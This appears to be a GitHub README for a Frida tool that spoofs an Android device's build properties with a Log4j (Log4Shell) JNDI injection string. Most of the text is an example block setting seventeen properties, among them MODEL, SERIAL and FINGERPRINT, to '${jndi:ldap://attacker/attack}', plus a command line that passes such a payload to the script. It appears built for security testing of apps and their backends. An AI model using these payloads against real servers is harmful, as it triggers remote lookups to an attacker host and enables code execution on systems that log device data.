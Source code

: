 # log4JFrida

Modifies all device characteristicts in order to return a Log4j payload instead:

**Example**:

```    
    buildProperties.MODEL.value="${jndi:ldap://attacker/attack}";
​    buildProperties.DEVICE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BOARD.value="${jndi:ldap://attacker/attack}";
​    buildProperties.PRODUCT.value="${jndi:ldap://attacker/attack}";
​    buildProperties.HARDWARE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.FINGERPRINT.value="${jndi:ldap://attacker/attack}"
​    buildProperties.MANUFACTURER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BOOTLOADER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.BRAND.value="${jndi:ldap://attacker/attack}";
​    buildProperties.HOST.value="${jndi:ldap://attacker/attack}";
​    buildProperties.ID.value="${jndi:ldap://attacker/attack}";
​    buildProperties.DISPLAY.value="${jndi:ldap://attacker/attack}";
​    buildProperties.TAGS.value="${jndi:ldap://attacker/attack}";
​    buildProperties.SERIAL.value="${jndi:ldap://attacker/attack}";
​    buildProperties.TYPE.value="${jndi:ldap://attacker/attack}";
​    buildProperties.USER.value="${jndi:ldap://attacker/attack}";
​    buildProperties.UNKNOWN.value="${jndi:ldap://attacker/attack}";
```



**Requirements**: Frida

Usage:

```$python3 log4Frida.py com.foo.bar  '${jndi:ldap://attacker/a}' ```


